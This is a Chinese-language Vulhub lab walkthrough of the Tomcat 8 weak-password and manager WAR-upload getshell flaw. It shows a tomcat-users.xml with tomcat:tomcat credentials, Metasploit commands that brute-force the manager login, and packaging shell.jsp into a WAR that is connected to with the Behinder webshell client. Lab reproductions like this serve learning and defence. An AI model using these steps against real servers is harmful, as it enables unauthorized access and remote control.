





# Tomcat8 弱口令+后台getshell漏洞

## 漏洞描述

Tomcat支持在后台部署war文件，可以直接将webshell部署到web目录下。其中，欲访问后台，需要对应用户有相应权限。

Tomcat7+权限分为：

- manager（后台管理）
  - manager-gui 拥有html页面权限
  - manager-status 拥有查看status的权限
  - manager-script 拥有text接口的权限，和status权限
  - manager-jmx 拥有jmx权限，和status权限
- host-manager（虚拟主机管理）
  - admin-gui 拥有html页面权限
  - admin-script 拥有text接口权限

这些权限的究竟有什么作用，详情阅读 http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html

在`conf/tomcat-users.xml`文件中配置用户的权限：

```
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
    
</tomcat-users>
```

可见，用户tomcat拥有上述所有权限，密码是`tomcat`。

正常安装的情况下，tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击。

## 漏洞影响

Tomcat版本：8.0

## 环境搭建

Vulhub无需编译，直接启动整个环境：

```
docker-compose up -d
```

访问`http://your-ip:8080/`即可访问Apache Tomcat/8.0.43页面。

## 漏洞复现

### metasploit爆破tomcat弱口令

访问`http://your-ip:8080/`，点击Manager App：



跳转tomcat管理页面`http://your-ip:8080/manager/html`，提示输入用户名和密码：



在kali中使用metasploit对tomcat用户名和密码进行爆破：

```
┌──(root kali)-[/home/kali]
└─# msfconsole

# 搜索tomcat相关模块
msf6 > search tomcat
...
   23  auxiliary/scanner/http/tomcat_mgr_login	normal     No     Tomcat Application Manager Login Utility
...

# 使用tomcat_mgr_login模块进行爆破
msf6 > use auxiliary/scanner/http/tomcat_mgr_login

# 设置服务地址
msf6 auxiliary(scanner/http/tomcat_mgr_login) >show options
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS <your-ip>
RHOSTS => <your-ip>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
```

爆破成功，用户名密码为`tomcat:tomcat`：



输入弱密码`tomcat:tomcat`，即可访问后台。

### 制作war包并上传

首先制作war包`project.war`：

```
E:\Behinder3\server>jar -cvf project.war shell.jsp
已添加清单
正在添加: shell.jsp(输入 = 612) (输出 = 449)(压缩了 26%)
```

上传war包：



成功部署：



冰蝎3成功连接`http://your-ip:8080/project/shell.jsp`：


